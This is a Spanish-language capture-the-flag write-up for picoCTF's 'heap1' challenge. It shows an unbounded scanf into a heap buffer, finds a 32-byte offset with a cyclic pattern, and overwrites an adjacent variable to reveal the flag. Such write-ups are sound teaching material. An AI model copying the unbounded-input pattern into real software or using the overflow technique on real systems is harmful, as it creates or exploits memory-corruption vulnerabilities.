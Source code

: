 Como podemos ver, el ejercicio nos ofrece dos direcciones en memoria con su respectivo valor.

```c
./chall              

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5555555596b0  ->   pico
+-------------+----------------+
[*]   0x5555555596d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 
```

Nos da la posibilidad de escribir en el buffer. Vamos a ver el código para verificar si se está utilizando alguna función de forma insegura:

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Efectivamente, el `scanf` no limita el tamaño del input. Esto lo podemos usar para desbordar el buffer.

Si seguimos buscando en el código, podemos ver cuál es la condición para que se imprima la flag:

```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flag for you :(\n");
        fflush(stdout);
    }
}
```

Si elegimos la opción "Print Flag" y la variable `safe_var` es igual a `"pico"`, obtendremos la flag.

La variable `safe_var`, por lógica, es la que tiene `bico` como valor.

Vamos a crear un patrón cíclico para descubrir cuál es el offset desde el buffer hasta la variable `safe_var`:

```c
Enter your choice: 2
Data for buffer: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

1. Print Heap:
2. Write to buffer:
3. Print safe_var:
4. Print Flag:
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5555555596b0  ->   aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa1
aaraaasaaataaauaaavaaawaaaxaaayaaa
+-------------+----------------+
[*]   0x5555555596d0  ->   iaaajaaakaaalaaamaaanaaaoaaapaaa1
aaraaasaaataaauaaavaaawaaaxaaayaaa
+-------------+----------------+
```

Usando el patrón cíclico:

```c
pwn cyclic -l iaaa
32
```

Tenemos un offset de 32. Vamos a escribir 32 caracteres y luego `"pico"`:

```bash
python2 -c 'print ("A" * 32 + "pico")'
```

Salida:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico
```

Ejecutamos:

```c
Welcome to heap1!
...
Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

Enter your choice: 4

YOU WIN
picoCTF{SECRETO}
```

¡Tenemos la flag!
